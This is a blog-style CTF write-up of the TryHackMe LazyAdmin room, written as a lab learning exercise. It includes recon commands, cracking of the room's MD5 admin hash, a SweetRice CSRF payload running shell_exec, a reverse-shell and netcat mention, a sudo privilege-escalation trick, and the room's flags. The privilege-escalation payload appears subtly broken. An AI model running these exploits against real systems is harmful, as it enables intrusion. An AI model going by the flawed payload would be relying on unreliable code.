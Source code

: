 I recently re-sparked my interest for InfoSec and started dabbling with a couple of hacking platforms and war games and stumbled over [TryhackMe](https://www.tryhackme.com), which so far has been an absolutely fantastic learning resource for information security.

This post marks my first CTF write up, so if you stumble over this, keep this in mind and if you have suggestions for improving the flow of the post, or the general content, feel free to send me en email about that!

With all of that out of the way, let's jump into the [LazyAdmin](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe.

## Lazy Admin

To start off, we'll use `nmap` to find out which ports are running:

```bash
nmap  -vv -sV -sC 10.10.60.2 -A -T4
```

We get the ports 22 and 80. Next, let's try to navigate to the website on port 80. There we see the basic Apache welcome page.

To see what else is running on this web server, let's use `gobuster` to find other files and directories

```bash
gobuster -u http://10.10.60.2/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This uses the [SecLists](https://github.com/danielmiessler/SecLists) repo's `Web-Content/big.txt` wordlist and we'll initially try for .php, .txt and .html files.

The first run gives us the `/content` folder and if we navigate there in our browser, we see an in-progress SweetRice CMS page.

At this point, it makes sense to go to [Exploit DB](https://www.exploit-db.com/) and search for SweetRice. There are several interesting CVE's, but we don't know the version yet.

Let's run `gobuster` again, to find resources inside of `content`:

```bash
gobuster -u http://10.10.60.2/content/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This gives us several things, such as the `/as` folder and the `/inc` folder. Under `/as` we find an administrator login, which is what we were looking for. Inside the `/inc` folder, interestingly, we find MySQL backup, which we immediately download.

Also, there are license.txt and changelog files and folders, which provide us with some info about the version - we're dealing with 1.5.0, so we can use the latest exploits on Exploit-DB!

Opening the downloaded MySQL backup, we stumble upon the password and the user name. The password is `42f749ade7f9e195bf475f37a44cafcb` and the user name is `manager`.

We can use `john the ripper` to crack the password, which looks like MD5:

```bash
john pw.txt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-MD5
```

We use the `rockyou` password list and immediately get `Password123` as a password.

With that, we can login to the Admin page! Nice.

Next, let's check out the exploits at Exploit DB. There, we find [this](https://www.exploit-db.com/exploits/40700) exploit, which enables us to do PHP code execution via a CSRF bug.

This sounds promising, as with remote code execution, we should be able to read out the user and root flag from the server, or simply open a reverse shell, letting us basically connect to the server via ssh.

If we look at the exploit on Exploit-DB, it looks like the following:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://10.10.60.2/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hacked"/>
            <textarea type="hidden" name="adv">
                <?php
                    echo '<h1> Hacked </h1>';
                ?>
            </textarea>;
        </form>
    </body>
</html>
```

We create a new .html file and paste this code in. However, instead of the `Hacked` message, we can use the `shell_exec` method to execute shell commands on the server, so we replace it with:

```php
$output = shell_exec('ls /home');
echo "<pre>$output</pre>";
```

This directs us to the Ads page in the SweetRice backend, with a new ad active. If we now access this using `http://10.10.60.2/content/inc/ads/hacked.php` in this case, then we see the executed PHP code, which shows us the contents of `/home`.

This way, we can see that the username is `itguy`. Next we can `ls /home/itguy` to see the files inside of the user's folder. There, we can already get the user flag using `cat /home/itguy/user.txt`. The flag is `THM{63e5bce9271952aad1113b6f1ac28a07}`.

With this exploit, we could also execute a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), which together with a locally opened netcat session (`nc -lvnp 4444`) enables us to gain access to the server.

In this case, we'll just continue to execute commands using the exploit though. The next thing we need to do is to privilege-escalate. We execute `sudo -l` and see, that the `www-data` user, which is the user running the web app, can execute the `backup.pl` file.

Next, we can look at the file using `cat /home/itguy/backup.pl` and we see that it simply calls `/etc/copy.sh`, which is a file we have access to. Now we have a way to get to the root flag - we overwrite the `/etc/copy.sh` file with a script for reading out the `/root/root.txt` file and we can do all of that in our CSRF exploit:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://10.10.60.2/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hackedy hacked"/>
            <textarea type="hidden" name="adv">
                <?php
                    echo "<pre>$output</pre>";
                    $output1 = shell_exec('echo "cat /root/root.txt > /etc/copy.sh"');
                    echo "<pre>$output1</pre>";
                    $output2 = shell_exec('sudo /usr/bin/perl /home/itguy/backup.pl');
                    echo "<pre>$output2</pre>";
                ?>
            </textarea>;
        </form>
    </body>
</html>
```

When we execute the exploit again, we get the root flag `THM{6637f41d0177b6f37cb20d775124699f}`.

All Done!

## Conclusion

What a nice entry-level CTF and one of the first unguided ones I was able to, after going through almost all entry-level THM rooms mentioned [here](https://blog.tryhackme.com/free_path/) before, finish without looking at any writeups, or any external help myself!

#### Resources

* [TryHackMe LazyAdmin](https://tryhackme.com/room/lazyadmin)
